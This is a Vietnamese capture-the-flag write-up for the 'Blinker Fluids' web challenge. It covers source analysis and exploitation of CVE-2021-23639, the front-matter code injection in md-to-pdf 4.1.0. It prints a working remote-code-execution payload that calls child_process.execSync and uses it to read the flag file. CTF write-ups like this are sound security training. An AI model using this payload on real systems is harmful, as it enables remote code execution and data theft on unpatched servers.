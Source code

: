 # `CHALLENGE DESCRIPTION`

<table>
<th style="text-align: center">
<img width="600" height="1">

```
CHALLENGE INFO
```

</th>

<th style="text-align: center">
<img width="282" height="1">

```
TABLE OF CONTENT
```

</th>
<tr>

<td width="600">      

<code> Blinker Fluids </code>

Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

**Tags:** `javasciprt`, `CVE-2021-23639`, `source-code-analysis`

</td>

<td>
<img width="600" height="1">

- [`CHALLENGE DESCRIPTION`](#challenge-description)
- [`QUICK PREVIEW`](#quick-preview)
	- [Source Code Analysis](#source-code-analysis)
- [`EXPLOITATION`](#exploitation)
	- [`👽` Solution 1](#-solution-1)
	- [`👽` Solution 2](#-solution-2)
</td>

</tr></table>

# `QUICK PREVIEW`

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `BlinkerFluids.zip`, ta được folder có cấu trúc như sau: 

```shell
BlinkerFluids
└── web_blinkerfluids
    ├── challenge
    │   ├── helpers
    │   │   └── MDHelper.js
    │   ├── routes
    │   │   └── index.js
    │   ├── static
    │   │   ├── invoices
    │   │   ├── css
    │   │   ├── images
    │   │   └── js
    │   ├── views
    │   │   └── index.html
    │   ├── database.js
    │   ├── index.js
    │   └── package.json
    ├── config
    │   └── supervisord.conf
    ├── build-docker.sh
    ├── Dockerfile
    └── flag.txt
```

Đây là giao diện của website.

![](../../attachments/Pasted%20image%2020220727132908.png)

Chức năng chính của nó:
+ cho phép tạo, lưu và xoá hoá đơn 
+ convert hoá đơn thành file pdf

Thực hiện tạo mới một hoá đơn, syntax của hoá đơn này được viết bằng `markdown`.

![](../../attachments/Pasted%20image%2020220727133029.png)

Sau khi tạo hoá đơn thành công, mình sẽ được redirect về index của website.

![](../../attachments/Pasted%20image%2020220727133742.png)

Đây là khi mình click vào phần Export PDF của hoá đơn, sẽ direct sang một url có cấu trúc như sau:

`http://46.101.2.216:30568/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf`

![](../../attachments/Pasted%20image%2020220727133007.png)

→ Chức năng của trang web cũng khá thú vị ha. 

## Source Code Analysis
Khi vào folder challenges, mình để ý thấy trong file `package.json` ở mục dependencies có xuất hiện một package bị lỗi `md-to-pdf` version `4.1.0`.  [CVE-2021-23639](https://github.com/advisories/GHSA-x949-7cm6-fm6p)

> Về cơ bản, package này cho phép ta thực hiện RCE thông qua việc convert sang PDF từ content của markdown.

```json
{
<--SNIP-->

	"dependencies": {
		"express": "4.17.3",
		"md-to-pdf": "4.1.0",
		"nunjucks": "3.2.3",
		"sqlite-async": "1.1.3",
		"uuid": "8.3.2"
	},
	
<--SNIP-->
}
```

# `EXPLOITATION`

Bắt gói tin POST khi thực hiện thêm hoá đơn bằng Burpsuite

![](../../attachments/Pasted%20image%2020220727134538.png)

Bây giờ chỉ cần replace `"dumb"` thành payload có cấu trúc như sau:

```javscript
---jsn\n((require('child_process')).execSync('<command>'))\n---RCE
```

Tới đây mình có 2 cách exploit:

## `👽` Solution 1

Để ý rằng các invoice sẽ được lưu tại một folder nhất định nào đó. Đọc file `MDHelper.js` sẽ cho ta biết được đó là folder `static/invoices/`

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] }
                }
            );
            resolve(id);

        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```

Lợi dụng điều này mình sẽ thực hiện tạo một file mới nằm trong `static/invoices` có nội dung của flag

![](../../attachments/Pasted%20image%2020220727140155.png)

Thực hiện tạo file thành công 

![](../../attachments/Pasted%20image%2020220727140231.png)

Bây giờ chỉ cần truy cập vào endpoint để lấy flag thôi

![](../../attachments/Pasted%20image%2020220727140800.png)

## `👽` Solution 2
Đọc trực tiếp trên file PDF sau khi render.

![](../../attachments/Pasted%20image%2020220727141643.png)

Thông báo thành công 

![](../../attachments/Pasted%20image%2020220727141359.png)

Truy cập đến invoice mà mình đã tạo

![](../../attachments/Pasted%20image%2020220727141533.png)

Tương tự, bây giờ mình đọc file flag là xong.